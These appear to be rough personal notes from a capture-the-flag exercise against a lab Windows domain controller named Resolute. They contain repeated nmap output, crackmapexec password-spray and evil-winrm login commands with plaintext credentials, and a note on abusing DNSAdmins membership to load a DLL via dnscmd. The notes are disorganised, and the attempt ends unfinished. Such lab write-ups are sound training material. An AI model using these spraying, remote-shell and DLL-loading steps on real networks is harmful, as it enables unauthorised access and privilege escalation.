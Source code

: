 # resolute

┌──(root㉿kali)-[/home/kali/Downloads/evil-winrm-3.4]
└─# nmap 10.129.96.155    
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-21 01:50 EDT
Nmap scan report for 10.129.96.155
Host is up (0.29s latency).
Not shown: 989 closed tcp ports (reset)
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl

Nmap done: 1 IP address (1 host up) scanned in 3.26 seconds


┌──(root㉿kali)-[/home/kali/Downloads/evil-winrm-3.4]
└─# nmap 10.129.96.155    
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-21 01:50 EDT
Nmap scan report for 10.129.96.155
Host is up (0.29s latency).
Not shown: 989 closed tcp ports (reset)
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl

Nmap done: 1 IP address (1 host up) scanned in 3.26 seconds

# smb enumeration

┌──(root㉿kali)-[/home/kali/Downloads/evil-winrm-3.4]
└─# nmap 10.129.96.155    
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-21 01:50 EDT
Nmap scan report for 10.129.96.155
Host is up (0.29s latency).
Not shown: 989 closed tcp ports (reset)
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl

Nmap done: 1 IP address (1 host up) scanned in 3.26 seconds

┌──(root㉿kali)-[/home/kali/Downloads/evil-winrm-3.4]
└─# crackmapexec smb 10.129.96.155 -u marco -p 'Welcome123!'         
SMB         10.129.96.155   445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\marco:Welcome123! STATUS_LOGON_FAILURE 
              
# password spray

`crackmapexec smb 10.10.10.169 -u users -p 'Welcome123!' --continue-on-success`

`evil-winrm -i 10.129.96.155 -P 5985 -u melanie -p 'Welcome123!'  `

```
evil-winrm -i 10.129.96.155 -P 5985 -u melanie -p 'Welcome123!'  
```

found info about powershell

PS>CommandInvocation(Invoke-Expression): "Invoke-Expression"                
>> ParameterBinding(Invoke-Expression): name="Command"; value="cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!

# winrm shell

net user ryan

net localgroup "remote mangaement group"

PS>CommandInvocation(Invoke-Expression): "Invoke-Expression"                
>> ParameterBinding(Invoke-Expression): name="Command"; value="cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!

got a note

whoami /groups



    Members of DNSAdmins group have access to network DNS information. The default permissions are as follows: Allow: Read, Write, Create All Child objects, Delete Child objects, Special Permissions.

By default the DNSAdmins don’t have the ability to start or stop the DNS service, but it’s not unusual for an admin to give this group that privilege

dnscmmd

dnscmd.exe /config /serverlevelplugindll \\path\to\dll

load a dll using dnscmd

toomuch things to change but evil winrm not working

